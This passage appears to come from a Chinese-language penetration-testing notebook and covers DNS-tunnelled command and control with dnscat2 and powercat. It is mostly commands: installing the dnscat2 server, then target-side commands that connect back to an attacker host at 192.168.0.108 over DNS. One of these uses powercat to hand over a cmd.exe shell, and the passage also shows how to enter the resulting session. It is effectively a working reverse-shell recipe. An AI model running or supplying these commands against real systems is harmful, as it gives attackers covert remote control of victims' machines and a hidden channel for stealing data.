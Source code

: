  #### Dnscat2
	安装dnscat2
	>apt-get -y install ruby-dev git make g++
	>gem install bundler
	>git clone https://github.com/iagox86/dnscat2.git
	>cd dnscat2/server
	>bundle install
	执行
	>ruby dnscat2.rb abc.com -e open --no-cache
![image](/assets/Pentest_Note/master/img/195.png)
 #### Powercat
	靶机执行
	>powercat -c 192.168.0.108 -v -dns abc.com -e cmd.exe
![image](/assets/Pentest_Note/master/img/196.png)

	dnscat2执行
	>session -i 1进入会话
![image](/assets/Pentest_Note/master/img/197.png)
 #### Dnscat2 exe
	Linux
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x86.tar.bz2 https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x64.tar.bz2
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip
	攻击机执行
	>ruby dnscat2.rb --dns "domain=zone.com,host=192.168.0.108" --no-cache
	靶机执行
	>dnscat2-v0.07-client-win32.exe --dns server=192.168.0.108
![image](/assets/Pentest_Note/master/img/198.png)

	攻击机执行
	>session -i [ID]进入会话
![image](/assets/Pentest_Note/master/img/199.png)
![image](/assets/Pentest_Note/master/img/200.png)
